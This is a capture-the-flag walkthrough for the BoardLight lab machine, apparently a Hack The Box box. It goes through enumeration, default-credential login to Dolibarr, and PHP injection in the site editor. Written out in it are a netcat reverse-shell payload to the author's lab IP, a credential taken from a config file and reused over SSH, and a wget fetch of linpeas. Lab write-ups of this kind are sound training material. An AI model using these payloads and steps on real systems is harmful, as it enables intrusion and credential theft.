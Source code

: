 ![image](https://github.com/user-attachments/assets/931b25c3-641a-48fc-bcc8-2f31982e8618)# BoardLight

![image](https://github.com/user-attachments/assets/2b73bf05-62a1-4243-8386-b94047464da6)

Hi! Today we have a machine **BoardLight**. So, let's start.

## Enumiration

(don't forget to add **board.htb** to `hosts`)

As usually as usual, we start with **nmap**.

![image](https://github.com/user-attachments/assets/9b29279e-1896-45f1-8310-8e26be5d5498)

Here we can see two ports, **http** (80) and **SSH** (22). Well, let's check website.

# Checking HTTP (80 port)

![image](https://github.com/user-attachments/assets/19c61d38-de44-45c2-a2ef-919c80781105)

After browsing the site, I didn't find anything special, so let's check the directories using **gobuster**

```
gobuster dir -u http://board.htb -w /usr/share/dirb/wordlists/common.txt
```

![image](https://github.com/user-attachments/assets/e9e60b7e-ac7c-4e83-8a07-782c2c47d0a4)

Hmm, nothing interesting. Let's check the subdomains.

```
gobuster dns -d board.htb -w subdomains-top1million-5000.txt
```

![image](https://github.com/user-attachments/assets/aea9a0f7-8b5a-494b-b430-0c93de7205c6)

1 subdomain, let's check it out

![image](https://github.com/user-attachments/assets/40bd5fe5-fa4d-470f-9ca5-1131b38b55d2)

And yes! That's it. I tried the standard login and password `admin:admin` and it worked.

![image](https://github.com/user-attachments/assets/6d752c5a-23d4-4226-aa4c-1e3214cec510)

The protection has worked, so we have limitations(

The **websites** tab immediately catches your eye:

![image](https://github.com/user-attachments/assets/4f0738ed-a0e1-4ecb-be16-bcaa40029dab)

Here we can create our own website.

![image](https://github.com/user-attachments/assets/42b0dc9d-7f76-4b5c-bc25-84b26a7209f1)

I created some kind of random website. You can also edit the html code

![image](https://github.com/user-attachments/assets/708ebb79-25ff-4806-b72e-7bde3a7c1e81)

Let's write a simple PHP code for check:

```
<?PHP echo system("whoami");?>
```

![image](https://github.com/user-attachments/assets/174d5968-20c8-4cd8-bddf-9fbf957e3bca)

Save and click on the binoculars icon to view our website.

![image](https://github.com/user-attachments/assets/7f66eb6e-9593-405b-b6ea-3ef4afcae1e3)

![image](https://github.com/user-attachments/assets/ec7829c6-b231-49f3-8ddf-984a1a9e03f4)

And here is our vulnerability, the site has issued a response to the `whoami` command. Let's try to get **reverse shell**.

My site crashes VERY often, so it needs to be recreated every time...

```
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.181 9999 >/tmp/f");?>
```
Instead of my ip, put yours, (you can view it using the command `ip a`, it will be in tun0).

we launch **netcat** through the shell:

```
nc -lvnp 9999
```

Now, save it again and click on the binoculars and we get access to the server!.

# Shell

![image](https://github.com/user-attachments/assets/791538f2-97cf-4cea-873c-d81609b06067)

For convenience, we create a terminal interface.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

In the '/home` directory, we see the user *larissa*, and of course we do not have access to her directory:

![image](https://github.com/user-attachments/assets/0f6d5c46-3097-40ed-8f80-18feca2f3e14)

![image](https://github.com/user-attachments/assets/7fdfcaa2-e6cf-4018-97f6-a549d3029468)

I Googled where the entire dolibarr database is located and as you can see on the [wiki](https://wiki.dolibarr.org/index.php?title=Configuration_file) it says that it is in a file `conf.php `

![image](https://github.com/user-attachments/assets/bbbffe37-269f-4b52-a5f9-b4f5391f0581)

And here is our password and it looks like it is for **larissa**. We have an open **ssh**, so let's try to log in through it.

## Shell as larissa (SSH)

use `larissa:serverfun2$2023!!`

```
ssh larissa@10.10.11.11
```

![image](https://github.com/user-attachments/assets/70b59c50-031c-47a3-be6e-9e7caf9903de)

so we entered as larissa.

![image](https://github.com/user-attachments/assets/e45cfbb3-45e7-4181-8606-381362e1662e)

 And here our ***user flag***. (and other people's exploits ;) )

 ![image](https://github.com/user-attachments/assets/d273b685-0a62-4f24-9058-4ae85dbb241c)

It's sad. But let's transfer our **lineass** to the server (I deleted all other people's files).

Launching our server for transfer:

```
sudo python3 -m http.server 9999
```
and get our linpeas:

```
wget http://10.10.14.181:9999/linpeas.sh
```

launch linpeas with `./linpeas.sh`.

![image](https://github.com/user-attachments/assets/6d87ffc0-0635-4f19-b7cd-4f056140663d)


